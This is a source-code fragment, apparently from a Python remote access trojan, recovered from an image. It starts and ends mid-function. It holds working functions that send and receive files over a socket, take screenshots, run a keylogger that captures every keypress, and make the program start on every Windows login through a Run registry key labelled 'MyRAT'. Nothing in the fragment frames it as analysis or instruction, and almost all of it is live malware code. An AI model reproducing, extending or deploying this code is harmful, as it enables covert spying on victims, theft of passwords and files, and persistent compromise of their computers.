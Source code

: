 ```python
    except subprocess.CalledProcessError as e:
        return e.output

def receive_file(s, filename):
    with open(filename, 'wb') as f:
        while True:
            data = reliable_recv(s)
            if data == b'EOF':
                break
            f.write(data)

def send_file(s, filename):
    with open(filename, 'rb') as f:
        while True:
            bytes_read = f.read(4096)
            if not bytes_read:
                break
            reliable_send(s, bytes_read)
    reliable_send(s, b'EOF')

def capture_screen():
    screenshot = pyautogui.screenshot()
    buf = BytesIO()
    screenshot.save(buf, format='PNG')
    return buf.getvalue()

def on_press(key):
    global keylog
    try:
        with keylog_lock:
            keylog.append(key.char)
    except AttributeError:
        with keylog_lock:
            keylog.append('[' + str(key) + ']')

def start_keylogger():
    global keylogger_running
    keylogger_running = True
    listener = keyboard.Listener(on_press=on_press)
    listener.start()

def stop_keylogger():
    global keylogger_running
    keylogger_running = False

def get_keylog():
    global keylog
    with keylog_lock:
        data = ''.join(keylog)
        keylog = []
    return data.encode()

def add_persistence():
    if platform.system() == "Windows":
        try:
            import winreg
            path = sys.executable
            key = winreg.OpenKey(winreg.HKEY_CURRENT_USER,
                                 r"Software\Microsoft\Windows\CurrentVersion\Run",
                                 0, winreg.KEY_SET_VALUE)
            winreg.SetValueEx(key, "MyRAT", 0, winreg.REG_SZ, path)
            key.Close()
        except Exception as e:
```